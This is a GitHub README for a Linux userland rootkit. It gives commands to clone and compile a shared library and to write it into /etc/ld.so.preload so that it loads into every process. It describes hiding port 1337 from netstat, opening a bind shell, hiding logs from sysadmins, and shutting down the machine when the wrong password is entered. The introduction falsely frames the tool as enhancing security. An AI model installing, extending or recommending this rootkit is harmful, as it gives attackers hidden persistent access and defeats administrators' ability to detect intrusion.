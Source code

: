 ## Introduction

Welcome to my rootkit! This toolkit offers some cool and interesting functionalities designed to enhance your digital security. Let's dive into what it can do.

## INSTALL MANUAL

1) git clone:
```git clone https://github.com/DARKSECshell/ROOTKIT-USERLAND```

2) userland rootkit compilation
```gcc DRK.c -o DRK.so -shared -fPIC -ldl```

3) moved library for /etc/ld.so.preload
```echo "$(pwd)/DRK.so" > /etc/ld.so.preload && ldconfig```

4) Check rk loading
```ldd /usr/bin/ls```


## Functionality Overview

When the digital attacker issues the command to kill port 1337, an interesting sequence of events unfolds:

1. **Password Prompt**: Upon attempting to kill port 1337, the rootkit will prompt for a password.
   
2. **Password Verification**: If the provided password matches the expected one, the rootkit will proceed to the next step.
   
3. **Incorrect Password Handling**: If the password provided does not match the expected one, the machine will initiate a shutdown process.

But what happens if the correct password is entered?

4. **Port 1337 Hiding**: The rootkit will stealthily hide port 1337 from detection. Even tools like `netstat` (and possibly `ss` in the future) will be deceived.

5. **Bind Shell Activation**: Additionally, the rootkit will activate a bind shell on the local machine. While firewalls may attempt to block it, the user will have the option to choose between a reverse shell or a bind shell.

6. **Log Concealment**: The rootkit ensures that commands like `tail` will have no effect. Sysadmins won't be able to spot suspicious activity in logs, nor will they be able to use other tools to inspect them.

7. **Future Plans**: Looking ahead, I'm considering further enhancements to make the rootkit even more stealthy. For instance, I'm contemplating hiding `/etc/ld.so.preload` to minimize suspicion from sysadmins.


> [!CAUTION]
> Advises about risks or negative outcomes of certain actions.

